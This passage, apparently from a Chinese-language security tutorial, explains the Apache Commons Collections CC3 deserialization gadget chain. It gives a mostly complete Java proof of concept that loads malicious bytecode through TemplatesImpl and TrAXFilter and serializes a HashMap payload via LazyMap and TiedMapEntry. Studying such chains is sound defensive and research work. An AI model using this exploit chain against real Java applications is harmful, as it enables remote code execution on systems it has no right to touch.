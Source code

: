 ```java
    throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);
  } catch (InvocationTargetException ex) {
    throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);
  }
}
```

可以看到其transform方法中就是可以调用input的构造方法，可以说完美符合我们的预期。

```java
InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{template});
instantiateTransformer.transform(TrAXFilter.class);
```

此时已经可以执行命令并且未曾使用InvokeTransformer，而链的其他部分和其他CC链类似只要构造类似的Transformer数组就可以了，这里我将其与CC6结合（原版是和CC1结合）构造完整的POC：

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException, NoSuchFieldException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/CC3/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        ChainedTransformer chainedTransformer = new ChainedTransformer( new Transformer[]{new ConstantTransformer(TrAXFilter.class), new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{template})});
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazymap = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), 'a');
        hashMap.put(mapentry,'b');
        Field mapfield = TiedMapEntry.class.getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(mapentry,lazymap);
        serialize(hashMap);
        unserialize();
    }

```